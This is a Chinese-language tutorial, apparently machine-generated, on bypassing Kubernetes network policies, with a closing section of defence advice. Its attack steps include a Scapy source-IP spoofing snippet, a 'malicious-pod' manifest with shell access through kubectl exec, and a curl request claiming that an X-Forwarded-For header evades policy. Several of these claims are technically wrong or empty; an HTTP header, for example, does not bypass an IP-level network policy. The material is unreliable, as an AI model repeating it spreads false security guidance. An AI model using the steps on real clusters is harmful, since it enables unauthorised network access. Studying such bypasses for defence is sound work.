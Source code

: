 # 容器网络策略绕过的案例分析

## 1. 技术原理解析

### 1.1 容器网络策略概述

容器网络策略（Network Policy）是Kubernetes中用于控制Pod之间网络通信的机制。通过定义网络策略，管理员可以限制哪些Pod可以与特定Pod通信，从而增强集群的安全性。然而，由于配置错误或底层实现漏洞，攻击者可能绕过这些策略，实现未授权的网络访问。

### 1.2 底层实现机制

Kubernetes网络策略通常依赖于CNI（Container Network Interface）插件实现，如Calico、Cilium等。这些插件通过iptables、eBPF等技术在节点上配置网络规则，以强制执行策略。然而，由于以下原因，策略可能被绕过：

1. **策略配置错误**：策略未正确覆盖所有Pod或命名空间。
2. **插件实现漏洞**：CNI插件在处理策略时存在逻辑漏洞。
3. **网络拓扑复杂性**：多集群、跨节点通信等复杂场景可能导致策略失效。

### 1.3 常见绕过方式

1. **Pod IP欺骗**：攻击者通过伪造Pod IP地址，绕过基于IP的策略。
2. **跨命名空间通信**：利用未隔离的命名空间，访问受限Pod。
3. **CNI插件漏洞**：利用CNI插件的实现漏洞，绕过策略检查。
4. **服务暴露**：通过暴露服务（Service）或外部IP，间接访问受限Pod。

## 2. 变种和高级利用技巧

### 2.1 Pod IP欺骗

攻击者可以通过以下步骤实现Pod IP欺骗：

1. **获取目标Pod IP**：通过Kubernetes API或网络扫描获取目标Pod的IP地址。
2. **伪造IP包**：使用工具如Scapy伪造源IP地址为允许通信的Pod IP。
3. **发送恶意流量**：将伪造的IP包发送至目标Pod，绕过网络策略。

### 2.2 跨命名空间通信

攻击者可以通过以下步骤实现跨命名空间通信：

1. **枚举命名空间**：通过Kubernetes API枚举所有命名空间。
2. **寻找未隔离的命名空间**：查找未应用网络策略或策略配置错误的命名空间。
3. **部署恶意Pod**：在未隔离的命名空间中部署Pod，访问受限Pod。

### 2.3 CNI插件漏洞

攻击者可以通过以下步骤利用CNI插件漏洞：

1. **分析插件实现**：通过源码或文档分析CNI插件的策略实现逻辑。
2. **寻找漏洞**：寻找策略检查中的逻辑漏洞或边界条件。
3. **构造恶意流量**：构造符合漏洞条件的流量，绕过策略检查。

### 2.4 服务暴露

攻击者可以通过以下步骤利用服务暴露：

1. **枚举服务**：通过Kubernetes API枚举所有服务。
2. **寻找暴露的服务**：查找暴露在外部或未受策略保护的服务。
3. **访问受限Pod**：通过服务间接访问受限Pod。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建

1. **安装Kubernetes集群**：使用工具如Minikube或kubeadm搭建Kubernetes集群。
2. **安装CNI插件**：选择并安装CNI插件，如Calico或Cilium。
3. **部署测试Pod**：部署测试Pod和应用网络策略。

### 3.2 攻击步骤

#### 3.2.1 Pod IP欺骗

1. **获取目标Pod IP**：
   ```bash
   kubectl get pods -o wide
   ```
2. **伪造IP包**：
   ```python
   from scapy.all import *
   packet = IP(src="10.244.1.2", dst="10.244.1.3")/TCP(dport=80)
   send(packet)
   ```
3. **发送恶意流量**：
   ```bash
   python3 spoof.py
   ```

#### 3.2.2 跨命名空间通信

1. **枚举命名空间**：
   ```bash
   kubectl get namespaces
   ```
2. **部署恶意Pod**：
   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: malicious-pod
     namespace: default
   spec:
     containers:
     - name: busybox
       image: busybox
       command: ["sleep", "3600"]
   ```
   ```bash
   kubectl apply -f malicious-pod.yaml
   ```
3. **访问受限Pod**：
   ```bash
   kubectl exec -it malicious-pod -- /bin/sh
   ```

#### 3.2.3 CNI插件漏洞

1. **分析插件实现**：
   ```bash
   git clone https://github.com/projectcalico/calico.git
   ```
2. **寻找漏洞**：通过代码审计寻找策略检查中的漏洞。
3. **构造恶意流量**：
   ```bash
   curl -H "X-Forwarded-For: 10.244.1.2" http://10.244.1.3
   ```

#### 3.2.4 服务暴露

1. **枚举服务**：
   ```bash
   kubectl get services
   ```
2. **寻找暴露的服务**：
   ```bash
   kubectl describe service my-service
   ```
3. **访问受限Pod**：
   ```bash
   curl http://<service-ip>:<port>
   ```

## 4. 实际命令、代码或工具使用说明

### 4.1 Scapy

Scapy是一个强大的Python库，用于构造和发送网络包。以下是一个简单的IP欺骗示例：

```python
from scapy.all import *
packet = IP(src="10.244.1.2", dst="10.244.1.3")/TCP(dport=80)
send(packet)
```

### 4.2 kubectl

kubectl是Kubernetes的命令行工具，用于管理集群资源。以下是一些常用命令：

```bash
kubectl get pods -o wide
kubectl get namespaces
kubectl apply -f malicious-pod.yaml
kubectl exec -it malicious-pod -- /bin/sh
```

### 4.3 Calico

Calico是一个流行的CNI插件，用于实现Kubernetes网络策略。以下是一个简单的策略示例：

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: deny-all
spec:
  podSelector: {}
  policyTypes:
  - Ingress
  - Egress
```

## 5. 防御建议

1. **严格配置网络策略**：确保所有Pod和命名空间都受到适当的网络策略保护。
2. **定期审计策略**：定期检查网络策略配置，确保其覆盖所有关键资源。
3. **使用最新版本的CNI插件**：及时更新CNI插件，修复已知漏洞。
4. **监控网络流量**：使用网络监控工具，检测异常流量和潜在攻击。

## 6. 总结

容器网络策略绕过是Kubernetes安全中的一个重要问题。通过深入理解底层实现机制和常见绕过方式，管理员可以更好地配置和防御网络策略。同时，攻击者可以利用这些知识进行渗透测试，发现和修复潜在漏洞。通过严格的策略配置和持续的安全审计，可以有效降低容器网络策略绕过的风险。

---

*文档生成时间: 2025-03-14 11:13:32*
